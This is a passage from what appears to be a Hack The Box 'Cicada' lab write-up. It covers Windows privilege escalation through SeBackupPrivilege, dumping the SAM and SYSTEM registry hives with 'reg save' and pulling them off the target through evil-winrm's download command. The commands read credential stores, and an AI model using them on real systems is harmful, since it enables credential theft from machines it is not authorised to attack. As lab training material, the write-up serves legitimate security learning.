   <img src="/assets/images/Rooms/HTB/Cicada/21.png" alt="Untitled" onclick="openModal(this.src)" style="width:100%; max-width:910px;">
</div>

We see that we have the <a href="https://github.com/HackTricks-wiki/hacktricks/blob/master/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens/README.md#sebackupprivilege" target="_blank">SeBackupPrivilege</a> set, which allows us to perform backups on the system, enanbling us to read every file or directory on the system, regardless if we have permissions in those files or not.

What we are going to do is create a backup of the `SAM` and the `system` files. To do this, we go to a directory where we are allowed to write, such as the directory <code>/temp</code>.

After that, we execute the following commands:

<div style="text-align:center;">
 <div class="code-container">
    <div class="code-header">
      Powershell
      <button class="copy-button" data-code="powershell">Copy</button>
    </div>
    <pre><code class="language-bash" >reg save hklm\sam C:\tmp\sam
reg save hklm\system C:\tmp\system</code></pre>
  </div>
</div>

<div style="text-align: center;">
  <img src="/assets/images/Rooms/HTB/Cicada/22.png" alt="Untitled" onclick="openModal(this.src)" style="width:100%; max-width:910px;">
</div>

As we are making use of <code>evil-winrm</code> we can download this files into our machine as follows:

<div style="text-align:center;">
 <div class="code-container">
    <div class="code-header">
      Powershell
      <button class="copy-button" data-code="powershell">Copy</button>
    </div>
    <pre><code class="language-bash" >download &lt;filename&gt; &lt;path_directory&gt;</code></pre>
  </div>
</div>
